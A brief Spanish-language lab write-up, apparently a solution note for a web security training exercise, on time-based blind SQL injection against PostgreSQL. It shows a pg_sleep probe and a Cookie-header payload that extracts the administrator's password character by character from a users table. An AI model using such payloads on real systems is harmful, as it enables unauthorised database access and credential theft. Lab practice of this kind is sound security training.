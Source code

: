 # Blind SQL injection with time delays and information retrieval

Para saber que base de datos usa hice lo siguiente y me di cuenta que era postgres: `' pg_sleep(10)--
Luego fui probando con esto:`Cookie: TrackingId=pALzvkW0cA8nKFGx'||(SELECT CASE WHEN (SUBSTRING(password,20,1)='k') THEN pg_sleep(2) ELSE NULL END FROM users WHERE username='administrator')--; session=UM8wm7qaUIHPLZ2RCqzpIHPCY9F2ie4d`